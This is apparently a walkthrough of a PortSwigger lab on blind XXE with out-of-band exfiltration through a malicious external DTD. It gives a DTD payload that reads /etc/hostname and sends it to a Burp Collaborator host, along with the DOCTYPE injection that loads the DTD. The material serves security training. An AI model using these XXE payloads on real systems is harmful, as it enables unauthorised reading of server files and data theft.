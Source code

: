 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/71c0b199-992c-4335-95f0-aa786cd29d0a)

### Solution

Initialy we will generate the payload with burp collaborator domain address

```js
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e113b0cb-8101-45bc-9490-3ae4507e97e4)

url is `https://exploit-0a61008804e348d881456bed01ea003f.exploit-server.net/exploit`

now we will use the stock check feature

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/24c00e28-0104-4e51-8125-4c8aaa6d7ed2)

add this payload between the xml and stock check tag 

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/7a62248f-0717-41ff-8c54-90af81a084e8)

now when we click poll now it shows http and dns requests, The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/720fd5bd-d335-4761-a4c2-9aac2b60b06e)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/4963cdaa-e771-48e4-88d3-4e60b614a332)

lab solved succesfully

